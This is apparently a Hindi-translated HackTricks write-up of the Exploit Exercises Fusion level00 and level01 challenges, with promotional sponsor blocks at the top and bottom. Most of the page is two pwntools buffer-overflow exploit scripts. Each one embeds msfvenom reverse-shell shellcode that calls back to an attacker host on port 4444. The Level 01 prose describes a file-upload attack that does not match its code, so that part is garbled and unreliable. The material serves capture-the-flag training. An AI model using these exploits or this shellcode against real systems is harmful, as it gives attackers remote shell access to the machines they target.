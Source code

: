 <details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- क्या आप किसी **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की आवश्यकता है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)

- प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या मुझे **Twitter** पर **फ़ॉलो** करें [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **अपने हैकिंग ट्रिक्स को [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके साझा करें।**

</details>


# Level00

[http://exploit-exercises.lains.space/fusion/level00/](http://exploit-exercises.lains.space/fusion/level00/)

1. EIP को संशोधित करने के लिए offset प्राप्त करें
2. EIP में शेलकोड पता डालें
```python
from pwn import *

r = remote("192.168.85.181", 20000)

buf = "GET "            # Needed
buf += "A"*139          # Offset 139
buf += p32(0xbffff440)  # Stack address where the shellcode will be saved
buf += " HTTP/1.1"      # Needed
buf += "\x90"*100       # NOPs

#msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.85.178 LPORT=4444 -a x86 --platform linux -b '\x00\x2f' -f python
buf += "\xdb\xda\xb8\x3b\x50\xff\x66\xd9\x74\x24\xf4\x5a\x2b"
buf += "\xc9\xb1\x12\x31\x42\x17\x83\xea\xfc\x03\x79\x43\x1d"
buf += "\x93\x4c\xb8\x16\xbf\xfd\x7d\x8a\x2a\x03\x0b\xcd\x1b"
buf += "\x65\xc6\x8e\xcf\x30\x68\xb1\x22\x42\xc1\xb7\x45\x2a"
buf += "\x12\xef\xe3\x18\xfa\xf2\x0b\x4d\xa7\x7b\xea\xdd\x31"
buf += "\x2c\xbc\x4e\x0d\xcf\xb7\x91\xbc\x50\x95\x39\x51\x7e"
buf += "\x69\xd1\xc5\xaf\xa2\x43\x7f\x39\x5f\xd1\x2c\xb0\x41"
buf += "\x65\xd9\x0f\x01"

r.recvline()
r.send(buf)
r.interactive()
```
# स्तर 01

## विषय

इस स्तर में, हम एक वेब ऐप्लिकेशन को हैक करने के लिए एक एक्सप्लोइट उपयोग करेंगे। इस ऐप्लिकेशन में एक फ़ाइल अपलोड करने का विकल्प है, जिसे हम एक एक्सप्लोइट के रूप में उपयोग कर सकते हैं।

## विवरण

इस लेवल में, हमें एक फ़ाइल अपलोड करने का विकल्प मिलता है, जिसे हम एक एक्सप्लोइट के रूप में उपयोग कर सकते हैं। हमें एक फ़ाइल अपलोड करने के लिए एक फ़ॉर्म भरना होगा, जिसमें हमें फ़ाइल का नाम और फ़ाइल का पथ देना होगा। इसके बाद, ऐप्लिकेशन फ़ाइल को सर्वर पर सहेज देता है।

इस लेवल को हैक करने के लिए, हमें एक एक्सप्लोइट उपयोग करना होगा जो एक विशेष फ़ाइल अपलोड करेगा। इस एक्सप्लोइट के द्वारा, हम एक शेल कमांड चला सकते हैं और ऐप्लिकेशन के सर्वर पर नियंत्रण प्राप्त कर सकते हैं।

## उपाय

1. एक फ़ाइल अपलोड करने के लिए फ़ॉर्म भरें।
2. एक एक्सप्लोइट उपयोग करें जो एक विशेष फ़ाइल अपलोड करेगा।
3. शेल कमांड चलाएं और ऐप्लिकेशन के सर्वर पर नियंत्रण प्राप्त करें।

## नोट

- इस लेवल को हैक करने के लिए, आपको एक एक्सप्लोइट उपयोग करना होगा जो विशेष फ़ाइल अपलोड करेगा।
- इस लेवल को हैक करने के लिए, आपको शेल कमांड चलाने की क्षमता होनी चाहिए।
```python
from pwn import *

r = remote("192.168.85.181", 20001)

buf = "GET "            # Needed
buf += "A"*139          # Offset 139
buf += p32(0x08049f4f)  # Adress of: JMP esp
buf += p32(0x9090E6FF)  # OPCODE: JMP esi (the esi register have the address of the shellcode)
buf += " HTTP/1.1"      # Needed
buf += "\x90"*100       # NOPs

#msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.85.178 LPORT=4444 -a x86 --platform linux -b '\x00\x2f' -f python
buf += "\xdb\xda\xb8\x3b\x50\xff\x66\xd9\x74\x24\xf4\x5a\x2b"
buf += "\xc9\xb1\x12\x31\x42\x17\x83\xea\xfc\x03\x79\x43\x1d"
buf += "\x93\x4c\xb8\x16\xbf\xfd\x7d\x8a\x2a\x03\x0b\xcd\x1b"
buf += "\x65\xc6\x8e\xcf\x30\x68\xb1\x22\x42\xc1\xb7\x45\x2a"
buf += "\x12\xef\xe3\x18\xfa\xf2\x0b\x4d\xa7\x7b\xea\xdd\x31"
buf += "\x2c\xbc\x4e\x0d\xcf\xb7\x91\xbc\x50\x95\x39\x51\x7e"
buf += "\x69\xd1\xc5\xaf\xa2\x43\x7f\x39\x5f\xd1\x2c\xb0\x41"
buf += "\x65\xd9\x0f\x01"

r.send(buf)
r.interactive()
```
<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- क्या आप किसी **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी कंपनी को **HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड** करने की अनुमति चाहिए? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)

- प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में **या** मुझे **Twitter** पर **फ़ॉलो** करें [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **अपने हैकिंग ट्रिक्स को [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके साझा करें।**

</details>
